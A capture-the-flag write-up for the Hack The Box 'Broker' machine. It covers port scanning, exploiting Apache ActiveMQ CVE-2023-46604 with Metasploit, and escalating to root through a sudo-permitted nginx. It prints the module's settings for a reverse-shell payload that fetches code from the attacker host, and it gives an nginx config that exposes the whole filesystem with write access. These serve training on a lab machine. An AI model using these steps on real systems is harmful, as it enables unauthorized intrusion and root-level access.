

# Challenge Name

<p align="center"></p>

-   **Platform:** Hack The Box
-   **URL:** https://app.hackthebox.com/machines/Broker
-   **Difficulty:** Easy
-   **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>tcp</summary>

```
ip=10.10.11.243;ports=$(sudo nmap -p- --min-rate=1000 -T4 $ip | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//); sudo nmap -p$ports -sC -sV $ip

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
1412/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.18.0 (Ubuntu)
1883/tcp  open  mqtt
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     ActiveMQ/Advisory/Consumer/Topic/#:
|_    ActiveMQ/Advisory/MasterBroker:
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
6969/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 403 Forbidden
7000/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 404 Not Found
8001/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 404 Not Found
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
8999/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 403 Forbidden
42459/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings:
|   HELP4STOMP:
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title.
| http-methods:
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings:
|   NULL:
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion
|_    5.15.15
```

</details>

## Foothold

### Web → `activemq` 🚩

#### Searching for Vulnerabilities

-   the nmap output shows, that the server uses **Apache ActiveMQ 5.15.15**, which is vunerable to _CVE-2023-46604_

#### Exploitation

1. We can exploit the vulnerability with the Metasploit module `multi/misc/apache_activemq_rce_cve_2023_46604`:

    - <details>
        <summary>Metasploit module options</summary>

        ```
        Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

           Name     Current Setting  Required  Description
           ----     ---------------  --------  -----------
           RHOSTS   10.10.11.243     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploi
                                               t.html
           RPORT    61616            yes       The target port (TCP)
           SRVHOST  10.10.14.89      yes       The local host or network interface to listen on. This must be an address on the local machine o
                                               r 0.0.0.0 to listen on all addresses.
           SRVPORT  8080             yes       The local port to listen on.
           SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
           URIPATH                   no        The URI to use for this exploit (default is random)

        Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

           Name                Current Setting  Required  Description
           ----                ---------------  --------  -----------
           FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
           FETCH_DELETE        false            yes       Attempt to delete the binary after execution
           FETCH_FILENAME      BUcBIHQhp        no        Name to use on remote system when storing payload; cannot contain spaces.
           FETCH_SRVHOST                        no        Local IP to use for serving payload
           FETCH_SRVPORT       8080             yes       Local port to use for serving payload
           FETCH_URIPATH                        no        Local URI to use for serving payload
           FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
           LHOST               10.10.14.89      yes       The listen address (an interface may be specified)
           LPORT               4444             yes       The listen port

        Exploit target:

           Id  Name
           --  ----
           1   Linux
        ```

          </details>

2. Reverse shell access for user `activemq` 🚩

## Privilege Escalation

### `activemq` → `root` 🏁

#### Searching for Vulnerabilities

- `sudo -l` shows, that we can run `nginx` as `root`:
    
    ```
    User activemq may run the following commands on broker:
        (ALL : ALL) NOPASSWD: /usr/sbin/nginx
    ```

#### Exploitation

1. We can create our own configuration `/tmp/nginx.conf`, which allows us to access every file on the system:
    
    ```
    user root;
    
    events {
        worker_connections 1024;
      }
      http {
        server {
          listen 1337;
          root /;
          autoindex on;
          dav_methods PUT;
    	}
    }
    ```
2. After starting the nginx server with `sudo nginx -c /tmp/nginx.conf`, we can access `http://10.10.11.243:1337/root/root.txt` to get the root flag. 🏁